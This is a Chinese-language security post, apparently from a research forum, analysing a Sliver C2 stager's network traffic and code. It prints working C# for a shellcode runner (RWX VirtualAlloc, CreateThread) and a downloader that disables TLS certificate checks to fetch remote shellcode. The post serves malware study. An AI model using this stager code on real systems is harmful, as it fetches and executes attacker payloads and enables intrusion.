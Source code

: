 ### 通信流量分析

和上面类似，首先是发送带有 .woff 的 url，请求下载shellcode，接着通过7000+个TCP请求后，成功下载完成，后续建立TLS连接，发送带有.html后缀的url，表示Sliver启动会话，建立C2连接。  
![p9aH51f.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-361dd53c1bc62f8bbec89f8f2f4ceb8872b53e38.png)

### 代码分析

分为两部分，一部分下载，一部分执行，执行这部分实际上就是 ShellCode Runner ，之前的文章也有写过，如下。由于C#不能直接调用Win32 API，因此需要通过 [P/Invoke 平台调用API](https://www.pinvoke.net/index.aspx) 间接将C++声明转换为C#方法标签，方可使用。  
这里使用到四种方法：  
VirtualAlloc：分配内存空间，存储shellcode  
Marshal.Copy：拷贝shellcode至目标区域  
CreateThread：创建进程用于执行shellcode  
WaitForSingleObject：延时避免执行完立即关闭

```c#
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] buf)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x3000, 0x40);
            Marshal.Copy(buf, 0, (IntPtr)(addr), buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); 
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
```

第二部分为下载器部分，使用ServicePointManager.ServerCertificateValidationCallback属性来设置一个回调函数，用于验证服务器端的证书。并设置始终返回true，表示不对服务器端的证书进行验证。接下来创建一个System.Net.WebClient对象，通过调用 DownloadData 方法，可以下载指定URL的内容，并将其保存为一个byte数组并最后返回。

```c#
        private static byte[] Download(string url)
        {
            // 不检查证书
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            // 调用DownloadData方法，下载指定内容
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            return shellcode;
        }
```

这部分比较简单，我个人认为可以理解为 Dropper 的功能也就是说有如下的对应关系。  
Stager = Dropper + ShellCode Runner
